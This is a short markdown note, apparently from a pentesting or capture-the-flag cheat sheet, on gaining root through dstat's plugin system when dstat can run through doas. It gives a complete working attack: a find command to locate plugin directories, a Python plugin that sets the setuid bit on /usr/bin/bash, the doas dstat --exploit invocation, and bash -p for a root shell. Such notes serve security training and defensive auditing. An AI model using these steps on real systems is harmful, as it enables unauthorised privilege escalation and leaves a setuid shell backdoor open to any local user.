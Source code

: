 # dstat

`dstat` is a nice tool for generating system resource stats. You can read more about it using `man dstat`.

One of the issue with `dstat` is that it comes with a plugin system ([https://linux.die.net/man/1/dstat](https://linux.die.net/man/1/dstat)). So if we are able to run `dstat` as a higher privileged user, and we are able to create or modify plugins, we can gain privesc. Usually admins will use `doas` to configure this, so check the `doas` configuration file.

You can find a list of directories that contains the word `dstat` by

```
find / -type d -name dstat 2>/dev/null
```

Usually, there is a directory called `/usr/local/share/dstat`. If you can write to this directory, you are in for a treat.

Simply create a file under this directory called `dstat_exploit.py` with the following content

```python
import os

os.system('chmod +s /usr/bin/bash')
```

Now we just need to run `dstat` as root with the plugin, you can use `doas`.

```
doas dstat --exploit
```

The exploit has been executed, you can now obtain root shell.

```
bash -p
```

#### Appendix

[https://exploit-notes.hdks.org/exploit/sudo-privilege-escalation/](https://exploit-notes.hdks.org/exploit/sudo-privilege-escalation/)
